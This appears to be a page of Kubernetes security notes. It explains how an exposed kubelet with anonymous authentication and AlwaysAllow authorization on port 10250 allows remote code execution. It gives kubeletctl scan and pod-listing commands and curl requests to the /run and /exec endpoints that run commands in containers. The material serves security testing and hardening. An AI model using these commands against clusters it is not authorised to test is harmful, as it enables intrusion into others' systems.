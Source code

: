 ```bash
[PASS] 4.2.11 Verify that the RotateKubeletServerCertificate argument is set to true (Manual)
[WARN] 4.2.12 Ensure that the Kubelet only makes use of Strong Cryptographic Ciphers (Manual)
[WARN] 4.2.13 Ensure that a limit is set on pod PIDs (Manual)
```
**Remote Code Execution in Containers Via Exposed Kubernetes** 
The kubelet is an agent that runs on every worker node in a Kubernetes cluster. Its main job is to receive instructions from the main Kubernetes API server and ensure containers are running as they should be within "pods". 

The kubelet component listens for requests on the following ports: 
a. **Port 10250:** Where it serves the kublet-api and allows for full access 
b **Port 10255:** Where it serves another API which has unauthorised, unauthenticated read-only access

The vulnerability arises from insecure **default settings** in some Kubernetes installations:

Anonymous Authentication is Enabled: The kubelet is configured with the flag --anonymous-auth=true. This means anyone who can reach the kubelet on the network can connect to its API without needing to provide a username, password, or certificate.

Authorization is Too Permissive: The kubelet is configured with --authorization-mode=AlwaysAllow. This tells the kubelet to approve any request from any user (including the anonymous ones from the point above).

Methodology:
1. Scan the network using kubeletctl. This checks for port 10250 in network.
```shell
kubeletctl scan --subnet 192.168.1.0/24
```
2. Once a target node is found, the attacker gathers information about what is running on it. The most valuable information is the list of active pods and containers.
```shell
kubeletctl pods 
```
![Pasted image 20250730154729.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250730154729.png)

3.
```shell
curl -ks -X POST https://<node_ip>:10250/run/<namespace>/<pod>/<container> -d "cmd=ls /""
```
For Kubernetes v1.9 or less :
```shell
curl -k -H "Connection: Upgrade" \ 
        -H "Upgrade: SPDY/3.1" \ 
        -H "X-Stream-Protocol-Version: v2.channel.k8s.io" \ 
        -H "X-Stream-Protocol-Version: channel.k8s.io" \ 
        -X POST "https://<node_ip>:10250/exec/<podNamespace>/<podID>/<containerName>?command=ls&command=/&input=1&output=1&tty=1"
```
References:
https://www.cyberark.com/resources/threat-research-blog/using-kubelet-client-to-attack-the-kubernetes-cluster


**Admission Controller:**
Admission Controller perform checks against what the request is doing to ensure it's not going to expend needless resources or implement an insecure practice. 
